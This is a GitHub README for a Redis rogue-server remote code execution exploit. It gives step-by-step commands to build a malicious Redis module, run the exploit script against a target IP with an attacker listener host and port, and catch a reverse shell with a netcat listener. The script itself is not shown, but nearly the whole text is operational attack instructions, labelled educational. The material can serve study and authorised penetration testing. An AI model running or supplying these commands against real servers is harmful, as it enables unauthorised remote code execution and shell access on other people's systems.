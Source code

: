 # Redis Rouge Server Remote Code Execution
## Usage
- Compile module.so from https://github.com/binaryxploit/redis-module-load-cmd-exec
```bash
git clone https://github.com/binaryxploit/redis-module-load-cmd-exec.git
cd ./redis-module-load-cmd-exec
make
```
- Clone the repo and copy the module.so file
```bash
cd ../
git clone https://github.com/binaryxploit/redis-rouge-server-rce.git
cd redis-rouge-server-rce
cp ../redis-module-load-cmd-exec/module.so ./
```
- Expoit usage example
```bash
python3 redis-rce.py -r 192.168.121.69 -L 192.168.45.221 -P 8888 -f ./module.so
```
- Note: The exploit lets to choose [i]nteractive shell or [r]everse shell option
- If choose [r]everse shell option set up a listener using netcat to grab the shell
```bash
nc -nvlp 8888
```
-------
This exploit is an aggregation of the following exploits, created for understanding and educational purposes.
- Credits:
  - https://github.com/RedisLabsModules/RedisModulesSDK
  - https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
  - https://github.com/Ridter/redis-rce
  
